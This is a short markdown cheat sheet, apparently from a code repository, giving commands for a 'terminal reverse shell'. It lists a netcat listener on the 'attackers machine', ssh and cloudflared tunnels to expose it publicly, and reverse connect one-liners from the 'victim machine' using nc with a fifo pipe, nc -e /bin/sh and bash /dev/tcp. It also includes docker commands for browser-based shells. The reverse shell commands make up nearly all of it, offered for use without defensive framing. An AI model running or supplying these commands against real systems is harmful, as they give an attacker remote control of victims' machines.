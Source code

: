 # terminal reverse shell

## open listener port on attackers machine
* `nc -v -lp 3000`
* macOS `nc -v -l 3000`

#### optional - get public address by creating a tcp reverse tunnel
- `ssh -R 0:localhost:3000 serveo.net`
- `cloudflared tunnel --url tcp://localhost:3000`

## reverse connect from victim machine to attackers machine
### bash

* nc
  * with fifo back pipe
    `BACKPIPE=/tmp/backpipe; rm -f $BACKPIPE; mkfifo $BACKPIPE; nc $ATTACKER_ADDRESS $ATTACKER_PORT 0<$BACKPIPE | /bin/sh >$BACKPIPE 2>&1`
  * with `-e` option
    `nc ATTACKER_ADDRESS:ATTACKER_PORT –e /bin/sh`
* bash
  `/bin/bash -c '/bin/bash -i >& /dev/tcp/${0/://} 0>&1' localhost:8000`

# browser reverse shell - ttyd
`docker run --rm -p 8080:7681 tsl0922/ttyd`
`ssh -R 80:localhost:8080 nokey@localhost.run`

# browser reverse shell - tty-share
`docker run --rm -it elisescu/tty-share --public`
